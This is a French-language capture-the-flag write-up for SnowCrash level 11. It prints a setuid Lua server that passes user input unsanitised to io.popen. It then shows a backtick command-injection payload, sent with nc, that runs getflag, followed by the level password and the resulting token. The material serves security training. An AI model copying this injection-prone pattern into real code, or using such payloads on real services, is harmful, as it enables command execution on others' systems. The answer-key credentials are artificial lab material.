 # LEVEL 11

**LOGIN: level11**

**PASSWORD: feulo4b72j7edeahuete3no7c**

 ----


```
level11@SnowCrash:~$ ls -l 
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```
```
level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

Le reverse sha1 de `"f05d1d066fb246efe0c6f7d095f909a7a0cf34a0` ne donne rien malheureusement. 

Avec `netstat` on confirme bien que le port 5151 est en écoute

`tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -`


Cette ligne ` prog = io.popen("echo "..pass.." | sha1sum", "r")` doit nous permettre d'exploit un subshell avec le mot de passe entré.

```
nc localhost 5151
Password: `getflag >/tmp/exploit`
Erf nope..
level11@SnowCrash:~$ cat /tmp/exploit
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

**TOKEN :fa6v5ateaw21peobuub8ipe6s**

